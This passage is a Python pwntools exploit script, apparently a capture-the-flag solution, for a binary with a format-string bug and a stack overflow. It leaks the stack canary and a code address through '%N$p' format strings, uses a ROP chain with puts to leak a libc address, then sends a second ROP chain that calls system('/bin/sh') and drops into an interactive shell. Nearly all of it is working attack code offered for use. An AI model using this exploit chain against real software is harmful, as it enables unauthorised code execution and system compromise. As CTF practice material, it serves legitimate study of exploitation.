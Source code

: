 ```python
    else:
        log.success('# {} => {}\n'.format(msg, value))


# leak_canary
logger('leak_canary')
payload = b'aaab%15$p'  # aaab.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p
p.sendlineafter(b'Your choice:', b'1')
p.sendlineafter(b'try to leak stack\n', payload)
p.recv(4)
canary = int(p.recv(18), 16)
logger('canary', hex(canary), 'success')

# leak_func_main
logger('leak_func_main')
payload = b'aaab%13$p'
p.sendlineafter(b'Your choice:', b'1')
p.sendlineafter(b'try to leak stack\n', payload)
p.recv(4)
leak_func_main = int(p.recv(14), 16)
bin_base = leak_func_main - bin_func_main
bin_puts_plt = bin_base + bin_puts_plt
bin_puts_got = bin_base + bin_puts_got
bin_pop_rdi_ret = bin_base + bin_pop_rdi_ret
bin_func_main = bin_base + bin_func_main

logger('bin_base', hex(bin_base), 'success')
logger('leak_func_main', hex(bin_func_main), 'success')
logger('bin_puts_plt', hex(bin_puts_plt), 'success')
logger('bin_puts_got', hex(bin_puts_got), 'success')
logger('bin_pop_rdi_ret', hex(bin_pop_rdi_ret), 'success')

# leak_libc_base
logger('leak_libc_base')
payload = b'a' * (0x70 - 0x8) + p64(canary) + b'b' * 0x8 + p64(bin_pop_rdi_ret) + \
    p64(bin_puts_got) + p64(bin_puts_plt) + p64(bin_func_main)
p.sendlineafter(b'Your choice:', b'3')
p.sendlineafter(b'pwn me\n', payload)
leak_libc_puts = u64(p.recv(6).ljust(8, b'\x00'))

libc_base = leak_libc_puts - libc_puts
libc_system = libc_base + libc_system
libc_str_bin_sh = libc_base + libc_str_bin_sh

logger('libc_base', hex(libc_base), 'success')
logger('leak_libc_puts', hex(leak_libc_puts), 'success')
logger('libc_system', hex(libc_system), 'success')
logger('libc_str_bin_sh', hex(libc_str_bin_sh), 'success')

# rop
logger('rop')
payload = b'a' * (0x70 - 0x8) + p64(canary) + b'b' * 0x8 + p64(bin_pop_rdi_ret) + p64(libc_str_bin_sh) + p64(libc_system)
p.sendlineafter(b'Your choice:', b'3')
p.sendlineafter(b'pwn me\n', payload)

p.interactive()
```
